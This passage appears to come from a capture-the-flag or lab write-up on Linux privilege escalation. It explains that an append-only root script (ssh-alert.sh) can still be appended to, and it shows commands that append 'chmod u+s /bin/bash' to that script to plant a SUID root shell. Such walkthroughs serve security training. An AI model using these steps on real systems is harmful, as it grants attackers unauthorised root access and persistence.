 ![](screenshots/ssh_alert_edit_fail.png)

So we inspect attributes:

```bash
lsattr /usr/local/sbin/ssh-alert.sh 
```

![](screenshots/ssh_alert_priv.png)

The file has the **append-only (`a`)** attribute.  
We cannot overwrite it, but we can append malicious commands.

We append a line to set SUID on `/bin/bash`:

```bash
echo "chmod u+s /bin/bash" > bash.txt
cat bash.txt >> /usr/local/sbin/ssh-alert.sh
```

![](screenshots/ssh_alerts_command_injection.png)
